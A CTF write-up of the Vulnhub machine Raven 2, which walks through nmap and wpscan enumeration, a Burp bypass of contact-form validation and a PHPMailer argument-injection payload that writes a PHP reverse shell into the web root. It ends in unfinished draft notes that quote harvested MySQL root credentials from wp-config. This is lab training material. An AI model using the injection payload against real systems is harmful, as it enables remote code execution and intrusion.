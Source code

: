 ```yaml
---
    title: Raven 2 CTF Walkthrough
    date: 2019-01-14
    excerpt: "Raven 2 CTF Write-up and Tutorial"
    tags: [ctf, cybersec, nmap, phpmailer]
---
```


Raven 2 is the sequel to the first Raven CTF by William McCann. It's intended to be a bit more difficult than Raven 1.

As usual, you can find it at [Vulnhub](https://www.vulnhub.com/entry/raven-2,269/).

## My Setup
I'll be attacking this in Kali Linux from VirtualBox on Windows. As with all the other CTFs I've done, they're on a shared NATNetwork with Kali.

**IP Range:** The IP range I have set for the NATNetwork is 10.0.2.0/24.

## Discovery
Using Nmap's built-in ping scan for this, as per usual. To avoid similar issues as Raven 1, I went ahead and added the VM as 'raven.local' to my /etc/hosts file in Kali.

Ping scanning may be unnecessary given the hosts file addition, but just to show:

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-14 10:05 EST
...
MAC Address: 08:00:27:12:DB:1A (Oracle VirtualBox virtual NIC)
Nmap scan report for raven.local (10.0.2.10)
Host is up (0.00022s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.48 seconds
```

## Port Scan
This should quickly become second nature to you.

```bash
root@kali:~# nmap -p- -sV -T4 -sS raven.local
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-14 10:07 EST
Nmap scan report for raven.local (10.0.2.10)
Host is up (0.000095s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
46889/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:9A:E0:14 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.59 seconds
```

Same as last time, just SSH and a webserver.

## Tube #80
Without some idea of credentials, let's poke the webserver.

Pointing Firefox to it, it's the same fancy site as Raven 1.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/main_site.PNG" alt="">
  <figcaption>The homepage.</figcaption>
</figure>

As with most CTFs, look through the website's source code to reveal comments, javascript code, and other things. In this case, I found some links to other pages, and a wordpress installation.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/links.PNG" alt="">
  <figcaption>Links to other pages on the webserver.</figcaption>
</figure>

I did not find anything of note in about.html or team.html; however, I did find the first flag in service.html, much like Raven 1.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven1/service_html.PNG" alt="">
  <figcaption>The first flag. It's even the exact same one as Raven 1.</figcaption>
</figure>

## Wordpress again
On Raven 1, I ran wpscan to enumerate the wordpress installation. I reran the scan to see if anything is different.

```bash
root@kali:~# wpscan --url http://raven.local/wordpress -e
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.4.2
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://raven.local/wordpress/
[+] Started: Tue Jan 15 14:24:15 2019

Interesting Finding(s):

[+] http://raven.local/wordpress/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

 ...

[+] Upload directory has listing enabled: http://raven.local/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

...

[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:00 <==================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] michael
 | Detected By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] steven
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

I'd need to rescan Raven 1 to see if the uploads directory was enabled. That aside, the only file is flag3.png!

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/flag3.PNG" alt="">
  <figcaption>The third flag.</figcaption>
</figure>

Last time, michael used his username for his SSH/user password. No luck this time. Steven's known password from last time has also changed.

## The contact form
The remaining item to check out from the website is its contact form. Looking at the source, we can see some client-side validation on the email address input.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/contact_form_validation.PNG" alt="">
  <figcaption>Note the pattern attribute on the email input field.</figcaption>
</figure>

Burp will bypass that. Upon testing the form with a passable email address, the response indicates a 404 error that the action, mail.php, isn't there.

Let's get burp set up and poke around. If you're not familiar, set your browser proxy to localhost:8080 and Burp's proxy will catch requests, enabling client-side validation bypassing, request editing, etc.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/burp.PNG" alt="">
  <figcaption>Burp catching the contact form request.</figcaption>
</figure>

It's not uncommon for simple sites to use the same PHP file to act as both the form and the form's request handler. Let's see what happens if we change the action to contact.php.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/burp_sent.PNG" alt="">
  <figcaption>Burp catching the contact form request.</figcaption>
</figure>

For starters, we get an HTTP 200 OK status. More importantly, looking through the resulting HTML, a message has been added below the form stating "Message has been sent.".

## PHPMailer
In real engagements, you'd do well to reuse things you found before on existing systems. In Raven 1, there's evidence of a PHPMailer vulnerability, but it was not needed. In this case, it seems our only hope of getting user access on the machine. Let's give it a try. The vulnerability is an argument escape in the system call in PHPMailer that can lead to writing an arbitrary file to disk. We can leverage that to write a PHP reverse-shell inside /var/www/html.



"7eLVNgkOy\" -OQueueDirectory=/tmp -X/var/www/html/hS0Uw4wj.php MlQN4"@675I73.com

note: raven2 requires the phpmailer vuln
as well as bypassing the client-side js email validation
use it to spawn a reverse shell

grab mysql pass (can assume wp needs db)

and they used the root password for it

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

root:R@v3nSecurity

Need to go from MySQL root to local root
